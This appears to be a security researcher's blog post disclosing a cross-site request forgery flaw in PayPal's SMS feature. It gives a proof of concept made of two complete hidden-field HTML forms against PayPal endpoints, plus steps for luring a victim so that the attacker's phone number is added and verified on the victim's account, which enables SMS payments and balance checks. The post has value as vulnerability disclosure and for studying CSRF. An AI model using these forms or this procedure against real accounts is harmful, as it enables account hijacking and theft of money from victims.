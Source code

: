 ```yaml
---
layout: post
title: Hijacking Paypal Accounts using the SMS feature
tag: 
---
```


After finding the Cross Site Request Forgery in Twitter, allowing me to Tweet and Direct message from any account using a bug in the add a mobile feature. I decided to cross reference across other websites with a SMS feature, I chose Paypal as it is usually pretty easy to find a bug in Paypal. After intercepting the requests, I found that Paypal did not ask for any CSRF tokens to add a mobile device to the account. This was exciting because Paypal allows you to send and receive money using SMS. It also allows you to check the balance of the account. <https://www.paypal.com/us/webapps/mpp/mobile/mobile-text>

# PoC

Direct your target to the the first CSRF page, this will send a request to add your phone number to their account. You will then receive a security code to your phone needed to verify the number. One you have received this, direct them to the second CSRF page, this will verify the phone number using the security code.

## CSRF 1: Add Phone number to account

	<html>
	<body>
	<form action="https://www.paypal.com/webapps/customerprofile/phone/confirm" method="POST">
	<input type="hidden" name="formAction" value="add" />
	<input type="hidden" name="actionId" value="doAction" />
	<input type="hidden" name="phoneType" value="MOBILE" />
	<input type="hidden" name="countryCode" value="GB" />
	<input type="hidden" name="phoneId" value="" />
	<input type="hidden" name="phoneNumber" value="324124142124" />
	<input type="hidden" name="sendCode" value="Send&#32;Code" />
	<input type="submit" value="Submit request" />
	</form>
	</body>
	</html>


## CSRF 2: Verify Phone Number

	<html>
	<body>
	<form action="https://www.paypal.com/webapps/customerprofile/phone/verify" method="POST">
	<input type="hidden" name="actionId" value="doAction" />
	<input type="hidden" name="phoneNumber" value="" />
	<input type="hidden" name="phoneType" value="" />
	<input type="hidden" name="confCode" value="12323123" />
	<input type="hidden" name="continue" value="Confirm&#32;Phone&#32;Number" />
	<input type="submit" value="Submit request" />
	</form>
	</body>
	</html>
